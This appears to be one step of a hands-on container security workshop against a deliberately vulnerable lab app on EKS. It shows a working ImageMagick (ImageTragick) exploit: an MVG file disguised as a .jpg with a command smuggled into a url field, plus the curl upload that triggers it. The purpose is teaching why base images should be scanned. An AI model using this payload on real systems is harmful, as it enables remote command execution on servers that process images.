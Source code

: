 +++
title = "Step 4: Exploit a Container Vulnerability"
chapter = false
weight = 21
+++

## Exploit a Container Vulnerability

Putting an application into a container does not automatically make it secure. To demonstrate the risks of a vulnerable component introduced by our container base image, we will exploit a vulnerability in the ImageMagick package present in one of the pods of our running application on EKS.

## Check the application container's home directory

### Locate the pod ID
First we need the pod ID for the application:
```bash
kubectl get pod
```

```kubernetes
NAME                          READY   STATUS    RESTARTS   AGE
goof-77846d94dd-m9zgc         1/1     Running   0          83m
goof-image-555df7c7fb-446vz   1/1     Running   0          18s
goof-mongo-66f98d594c-l646p   1/1     Running   0          113m
```
Look for the pod name starting with `goof-image` and use it in the command below.

### List the current files in the container's home directory

Next we will get a file directory listing for the container running in that pod by executing the following command:
```bash
kubectl exec -it [goof-image pod id] -- ls 
```

You should see the file listing of the goof-image container's home directory as follows:
```bash
CODEOWNERS  README.md  node_modules	  package.json	server.js
Dockerfile  exploits   package-lock.json  public	uploads
```

## Exploit a remote code execution vulnerability

In your Cloud9 terminal run the following:
```bash
cat image-app/exploits/rce1.jpg
```

Even though that file has a `.jpg` extension in it's name, it is actually a script:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|touch "rce1)'
pop graphic-context
```
Take special notice to the `"|touch "rce1` part of the next-to-last line.

##TODO - Get the GOOF_IMAGE_LB

Now, run the following:
```bash
curl -F 'twitter_picture=@rce1.jpg' http://localhost:3112/upload http://$GOOF_IMAGE_LB//
```

All we see coming back is this:
```
Found. Redirecting to /public/result.html
```

But let's check the container's filesystem again:
```bash
kubectl exec -it [goof-image pod id] -- ls 
```

```bash
CODEOWNERS  README.md  node_modules	  package.json	rce1	   uploads
Dockerfile  exploits   package-lock.json  public	server.js
```
Now we see an additional `rce1` file has been created!

## The impact of this vulnerability
The creation of an empty file may not seem that severe but realize that any command availabile in that container could be used in place of the `touch` command used here.  This includes things like `wget`, `curl` and `apt-get`.  It would not be hard to craft an exploit that pulls a shell script from an internet site and runs whatever is in it, giving the hacker a beachhead in your cluster to operate from.

Continue to the next step to learn how to identify these, and other, vulnerabilities in your container images that are introduced by your container base image.

